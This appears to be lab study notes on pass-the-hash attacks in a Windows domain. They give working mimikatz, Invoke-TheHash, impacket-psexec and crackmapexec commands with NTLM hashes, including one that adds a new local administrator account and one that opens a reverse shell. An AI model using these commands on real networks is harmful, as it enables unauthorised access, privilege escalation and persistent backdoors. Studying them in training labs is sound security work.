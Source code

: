 ### Mimikatz (Windows)

To do PtH with `mimikatz`, we can use the module `sekurlsa::pth`: `sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe`.

* Note that `/rc4` or `/NTLM` are both usable options to pass in the NTLM hash.
* For local user accounts, the `/domain` argument can be set as the computer name, `localhost`, or a dot (`.`).
* If the `/run` argument is left blank, `cmd.exe` is automatically triggered.

### Invoke-TheHash (Windows)

Alternatively, PtH can be executed using `Invoke-TheHash` PowerShell functions. Note that we want to use credentials with administrator rights.

* We can choose to do SMB or WMI command execution using this tool.
* We can also do RCE using a reverse shell and `netcat` listener.

Required parameters:

* `Target`: The hostname or IP address of the target.
* `Username` and `Hash`: Hash can be in `LM:NTLM` or `NTLM` format.
* `Domain`: Not necessary with local accounts, or if `@domain` is used after the username.
* `Command`: If not specified, the function checks to see if the user has access to WMI on the target.

**SMB**:

```
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

**WMI**:

```
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "<reverse shell command>"
```

### Impacket (Linux)

`impacket-psexec` can be used for RCE: `impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`.

* Similarly, the `wmiexec`, `atexec` and `smbexec` tools can all be used.

### CrackMapExec (Linux)

We can do password spraying on a domain using `crackmapexec`: `crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453`.

If we wish to authenticate using the local administrator's password hash instead, we can add the `--local-auth` option to our command.
